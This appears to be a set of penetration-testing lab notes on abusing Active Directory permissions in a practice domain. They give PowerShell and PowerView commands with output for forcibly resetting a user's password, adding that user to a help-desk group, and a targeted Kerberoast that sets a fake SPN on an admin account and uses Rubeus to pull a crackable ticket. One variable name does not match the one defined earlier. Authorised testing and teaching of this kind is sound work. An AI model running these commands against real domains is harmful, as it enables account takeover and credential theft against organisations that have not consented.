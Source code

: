 #### Password Reset (User-Force-Change-Password)
Create `PSCredential` Object
```powershell
$SecPassword = ConvertTo-SecureString '<PASSWORD HERE>' -AsPlainText -Force
$Cred = New-Object System.Management.Automation.PSCredential('INLANEFREIGHT\wley', $SecPassword)
```
Create `SecureString`Object for user to abuse
```powershell
$PwnedPassword = ConvertTo-SecureString 'Pwn3d!' -AsPlainText -Force
```
Change users password
```powershell
Import-Module .\PowerView.ps1
Set-DomainUserPassword -Identity damundsen -AccountPassword $damundsenPassword -Credential $Cred -Verbose

VERBOSE: [Get-PrincipalContext] Using alternate credentials
VERBOSE: [Set-DomainUserPassword] Attempting to set the password for user 'damundsen'
VERBOSE: [Set-DomainUserPassword] Password for user 'damundsen' successfully reset
```
Cleanup
```powershell
```
#### Adding User to Group (GenericWrite)
Create `PSCredential` Object
```powershell
$SecPassword = ConvertTo-SecureString 'Pwn3d!' -AsPlainText -Force
$Cred2 = New-Object System.Management.Automation.PSCredential('INLANEFREIGHT\damundsen', $SecPassword) 
```
Add to group
```powershell
Import-Module .\PowerView.ps1
Add-DomainGroupMember -Identity 'Help Desk Level 1' -Members 'damundsen' -Credential $Cred2 -Verbose

VERBOSE: [Get-PrincipalContext] Using alternate credentials
VERBOSE: [Add-DomainGroupMember] Adding member 'damundsen' to group 'Help Desk Level 1'
```
Verify
```powershell
Get-ADGroup -Identity "Help Desk Level 1" -Properties * | Select MemberName
```
Cleanup
```powershell
Remove-DomainGroupMember -Identity "Help Desk Level 1" -Members 'damundsen' -Credential $Cred2 -Verbose
```

#### Targeted Kerberoast
Let's say that our client permitted us to change the password of the `damundsen` user, but the `adunn` user is an admin account that cannot be interrupted. Since we have `GenericAll` rights over this account, we can have even more fun and perform a targeted Kerberoasting attack by modifying the account's [servicePrincipalName attribute](https://docs.microsoft.com/en-us/windows/win32/adschema/a-serviceprincipalname) to create a fake SPN that we can then Kerberoast to obtain the TGS ticket and (hopefully) crack the hash offline using Hashcat

Create fake SPN
```powershell
Set-DomainObject -Credential $Cred2 -Identity adunn -SET @{serviceprincipalname='notahacker/LEGIT'} -Verbose
```
Kerberoast w/ Rubeus
```powershell
.\Rubeus.exe kerberoast /user:adunn /nowrap
```
Cleanup
```powershell
Set-DomainObject -Credential $Cred2 -Identity adunn -Clear serviceprincipalname -Verbose
```